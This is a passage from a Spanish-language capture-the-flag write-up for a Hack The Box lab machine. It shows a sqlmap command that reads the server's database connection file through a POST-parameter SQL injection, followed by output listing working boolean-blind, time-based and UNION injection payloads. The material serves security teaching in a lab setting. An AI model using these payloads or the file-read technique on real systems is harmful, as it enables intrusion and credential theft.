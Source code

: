 ```php
            exit();
        }

        $stmt->close();
        $conn->close();

    } catch (PDOException $e) {
        $_SESSION['message'] = 'Error: ' . $e->getMessage();
        $_SESSION['message_type'] = 'error';
    }

    $stmt->close();
    $conn->close();

    header('Location: skins.php');
    exit;
}
?>
```

Veremos una ruta bastante interesante llamada `db/connection.php`, vamos a probar que contiene:

```shell
sqlmap -r req.txt --method=POST --batch --file-read="/var/www/html/db/connection.php"
```

Info:

```
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:14:36 /2025-10-30/

[12:14:36] [INFO] parsing HTTP request from 'req.txt'
[12:14:36] [INFO] resuming back-end DBMS 'mysql'
[12:14:36] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=156'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=test' AND 8431=8431 AND 'Hxdn'='Hxdn

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=test' AND (SELECT 8159 FROM (SELECT(SLEEP(5)))iyof) AND 'NlBa'='NlBa

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-5795' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71717a7a71,0x7a737744506276506541596c774b5456694d504342586759766d445a797157736e444b6f5577676c,0x716a7a7a71)-- -
---
```